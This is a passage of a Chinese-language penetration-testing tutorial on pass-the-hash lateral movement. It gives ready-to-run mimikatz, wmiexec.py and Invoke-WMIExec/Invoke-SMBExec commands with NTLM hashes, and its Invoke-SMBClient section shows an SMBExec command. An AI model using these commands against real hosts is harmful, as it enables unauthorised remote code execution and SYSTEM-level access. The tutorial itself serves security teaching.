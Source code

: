 得到hash之后：

```bash
sekurlsa::pth /user:Administrator /domain:ssooking-pc /ntlm:AFC44EE7351D61D00698796DA06B1EBF
```

### [wmiexec.py](https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py)

exe 版本下载[链接](https://github.com/maaaaz/impacket-examples-windows)

windows 管理规范`WMI`，实际上就是windows从`03/XP`开始就内置了这个系统插件。其设计初衷之一是为了管理员能更加方便的对远程windows主机进行各种日常管理。

严格来说它其实是为各种服务提供一个统一的调用接口，比如你想操作什么服务就去调用对应的服务类中的方法去执行你的操作。在渗透测试中，它意味着我们可以直接在本地操作远程目标机器上的进程、服务、注册表等包括其它一系列特权操作，wmi是一把在目标内网进行横向移动的非常趁手的武器。`wmiexec`是一个python2脚本，对windows自带的wmic做了一些强化，让渗透变得更容易。

只能说很多工具吧，比较好用的在这里介绍两种：

wmiexec的注释中提示"Main advantage here is it runs under the user (has to be Admin) account"，经实际测试普通用户权限即可。wmiexec的hash参数格式为`LMHASH:NTHASH`，由于该Hash来自于Server 2008，系统默认不支持LM hash，所以LM hash可以设定为任意值。

```bash
wmiexec.py -hashes 00000000000000000000000000000000:AFC44EE7351D61D00698796DA06B1EBF ssookinging-pc/administrator@17.10.0.10 "whoami"
```

![](https://raw.githubusercontent.com/ssooking/imgbed/master/img/yushentou-ntml-hash/20181204094217.png)

### Powershell

https://github.com/Kevin-Robertson/Invoke-TheHash



[Invoke-WMIExec](https://github.com/Kevin-Robertson/Invoke-TheHash/)

```powershell
Invoke-WMIExec -Target 17.10.0.10 -Domain test.local -Username test1 -Hash AFC44EE7351D61D00698796DA06B1EBF -Command "calc.exe" -verbose
```

Invoke-SMBExec

通过在目标主机创建服务执行命令，所以权限为system

```powershell
Invoke-SMBExec -Target 192.168.0.2 -Domain ssookinging-pc -Username test1 -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "calc.exe" -verbose
```

**Invoke-SMBClient：**

支持SMB1, SMB2 (2.1), and SMB signing

如果只有SMB文件共享的权限，没有远程执行权限，可以使用该脚本

支持的功能包括列举目录、上传文件、下载文件、删除文件(具体权限取决于该口令hash的权限)

```bash
Invoke-SMBExec -Target 192.168.0.102 -Domain workgroup -Username administrator -Hash 03bebb338e70244589ea67c7439c77ba -Command "notepad.exe" -verbose
```

